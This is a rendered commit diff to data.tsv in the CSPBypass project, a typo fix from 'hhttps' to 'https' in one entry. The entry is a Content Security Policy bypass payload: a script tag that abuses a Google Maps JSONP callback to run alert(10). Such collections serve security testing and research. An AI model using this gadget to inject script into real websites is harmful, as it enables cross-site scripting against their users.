

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Fixed a Typo

```diff
--- a/data.tsv
+++ b/data.tsv
-B172: <script src="hhttps://maps.googleapis.com/maps/vt?pb=%211m4%211m3%211i10%212i724%213i439%211m4%211m3%211i10%212i720%213i440%211m4%211m3%211i10%212i720%213i441%211m4%211m3%211i10%212i721%213i440%211m4%211m3%211i10%212i721%213i441%211m4%211m3%211i10%212i722%213i440%211m4%211m3%211i10%212i722%213i441%211m4%211m3%211i10%212i723%213i440%211m4%211m3%211i10%212i723%213i441%211m4%211m3%211i10%212i724%213i440%211m4%211m3%211i10%212i724%213i441%212m3%211e0%212sm%213i773537128%213m13%212sen%213sIN%215e18%2112m5%211e68%212m2%211sset%212sRoadmap%214e2%2112m3%211e37%212m1%211ssmartmaps%214e3%2112m1%215b1%2123i46991212%2123i47054750&callback=alert(10)//&client=google-maps-pro&token=124706"></script>
+B172: <script src="https://maps.googleapis.com/maps/vt?pb=%211m4%211m3%211i10%212i724%213i439%211m4%211m3%211i10%212i720%213i440%211m4%211m3%211i10%212i720%213i441%211m4%211m3%211i10%212i721%213i440%211m4%211m3%211i10%212i721%213i441%211m4%211m3%211i10%212i722%213i440%211m4%211m3%211i10%212i722%213i441%211m4%211m3%211i10%212i723%213i440%211m4%211m3%211i10%212i723%213i441%211m4%211m3%211i10%212i724%213i440%211m4%211m3%211i10%212i724%213i441%212m3%211e0%212sm%213i773537128%213m13%212sen%213sIN%215e18%2112m5%211e68%212m2%211sset%212sRoadmap%214e2%2112m3%211e37%212m1%211ssmartmaps%214e3%2112m1%215b1%2123i46991212%2123i47054750&callback=alert(10)//&client=google-maps-pro&token=124706"></script>
```
